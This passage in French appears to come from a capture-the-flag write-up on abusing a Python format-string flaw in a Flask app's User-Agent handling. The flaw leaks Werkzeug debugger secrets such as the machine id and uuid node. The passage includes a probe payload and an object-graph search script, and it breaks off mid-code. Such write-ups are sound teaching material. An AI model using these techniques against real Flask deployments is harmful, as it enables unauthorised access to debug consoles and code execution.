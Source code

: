 J'ai utilisé la 2nd méthode.  

Si on envoie un User-Agent avec une payload volontairement erronée comme `{ua.__class__.vozec}`, on obtient:

![Alt text](./img/3.png)

=> `app.__file__=/usr/local/lib/python3.10/site-packages/flask/app.py`

#### Uuid et MachineId

Vient ici toute la difficulté du challenge.  

Nous allons devoir utiliser la format string pour faire fuiter ces informations.

On retourne dans le code source de `werkzeug` pour localiser ou sont ces informations.

  - La variable *_machine_id* est globale ce qui veut qu'elle est récupérable dans le module ``werkzeug.debug`` [ici](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py#L45)

  - De même, `uuid` est un module opensource présent dans le coeur de Python et la variable recherchée et elle aussi globale [ici](https://github.com/python/cpython/blob/main/Lib/uuid.py#L648)


### Exploitation complète de la Format-String:

Au cours de mes recherches, j'ai trouvé ce writeup du TokyoWesterns CTF 2018 : [Shrine writeup](https://ctftime.org/writeup/10851). Il est très instructif mais surtout, nous fournit ce code pour parcourir les objets python.

Notre but ici va être de trouver un moyen de :
- Accéder au modules `sys`
- Utiliser `sys` pour retrouver les autres modules
- Accéder à `werkzeug.debug`
- Accéder à `werkzeug.debug.uuid._node` et `werkzeug.debug._machine_id`

On utilise ce code python pour explorer le module `ua`:

```python
from flask import Flask, request, render_template

app = Flask(__name__)
@app.route("/")
def hello_agent():
    best = 9999999999
    ua = request.user_agent
    for path, obj in search(ua, 50):
        if str(obj).startswith("<module 'sys'"):
            if len(path) < best:
                best = len(path)
                print(path)
    return {'hello':'World'}


def search(obj, max_depth):

    visited_clss = []
    visited_objs = []

    def visit(obj, path='obj', depth=0):
        yield path, obj

        if depth == max_depth:
            return

        elif isinstance(obj, (int, float, bool, str, bytes)):
            return

        elif isinstance(obj, type):
```